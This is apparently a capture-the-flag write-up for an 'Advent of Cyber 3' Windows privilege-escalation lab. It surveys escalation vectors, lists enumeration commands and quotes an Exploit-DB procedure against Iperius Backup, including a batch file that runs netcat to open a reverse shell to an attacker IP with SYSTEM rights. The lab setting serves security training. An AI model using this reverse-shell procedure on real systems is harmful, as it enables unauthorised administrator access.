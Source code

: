 # Windows PrivEscalation

### Windows Account types!

- Domain Administrators: (Highest rank) Manage all accounts of the organization.
	- A "domain" is a central registry used to manage all users and computers within the organization.
- Services: Accounts used by software to perform their tasks such as back-ups or antivirus scans.
- Domain users: Accounts typically used by employees.
- Local accounts: These accounts are only valid on the local system and can not be used over the domain.

### Windows Privilege Escalation Vectors

- Stored Credentials: Important credentials can be saved in files by the user or in the configuration file of an application installed on the target system.
- Windows Kernel Exploit: The Windows operating system installed on the target system can have a known vulnerability that can be exploited to increase privilege levels.
- Insecure File/Folder Permissions: In some situations, even a low privileged user can have read or write privileges over files and folders that can contain sensitive information.
- Insecure Service Permissions: Similar to permissions over sensitive files and folders, low privileged users may have rights over services.
- DLL Hijacking: Applications use DLL files to support their execution. Sometimes DLLs that are deleted or not present on the system are called by the application (the application can still run).
	- Finding a DLL the application is looking for in a location we can write to can help us create a malicious DLL file that will be run by the application.
	- In such a case, the malicious DLL will run with the main application's privilege level. 
- Unquoted Service Path: If the executable path of a service contains a space and is not enclosed within quotes, a hacker could introduce their own malicious executables to run instead of the intended executable.
- Always Install Elevated: Windows applications can be installed using Windows Installer (also known as MSI packages) files.
	- These files make the installation process easy and straightforward.
	- Windows systems can be configured with the "AlwaysInstallElevated" policy. This allows the installation process to run with administrator privileges without requiring the user to have these privileges.
	- This feature allows users to install software that may need higher privileges without having this privilege level. If "AlwaysInstallElevated" is configured, a malicious executable packaged as an MSI file could be run to obtain a higher privilege level.
- Other software: Software, applications, or scripts installed on the target machine may also provide privilege escalation vectors.

### Initial Information Gathering

- ```net users```
	- list users on the target system

- ```systeminfo```
	- Get information about the operating system!
- ```wmic service list```
	- list services installed on the target system!


## Task 1

```
net users
```

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q1.png)

## Task 2

```systeminfo```

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q1.png)

## Task 3 & 4

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q3.png)

## Task 5

#### Enumerating Iperius Service!

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-1.png)

Quick search on google of any common exploit! we found!

https://www.exploit-db.com/exploits/46863

```
Exploit:
1. Login as low privilege user where Iperius Backup and Iperius Backup Service are installed

2. Download netcat  from attacking machine
	 c:\users\low\downloads\nc.exe
	 
3. Create batch file calling netcat and sending command prompt to attacking machine
	c:\users\low\desktop\evil.bat
		@echo off
		c:\users\low\downloads\nc.exe 192.168.0.163 443 -e cmd.exe

4. Setup listener on attacking machine
	nc -nlvvp 443

5. Open Iperius Backup and create new backup job
	- set any folder to backup (c:\temp)
	- set to any destination (c:\users\low\desktop)
	- set program to run before backup job (c:\users\low\desktop\evil.bat)

6. Right-click on newly created job and select "Run backup service as"
	- will either be local system or administrator account

7. Command prompt on attacking machine will appear
	C:\Program Files (x86)\Iperius Backup>whoami
	whoami
	<computer name>\<administrator>
```

Let follow the guide! to escalate out privs!

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-2.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-3.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-4.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-5.png)

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q5-6.png)

## Task 6

```
C:\Users\thegrinch\Documents
```

![****](/Advent%20of%20Cyber%203/Screenshots/Task13/q6.png)

Have a great day!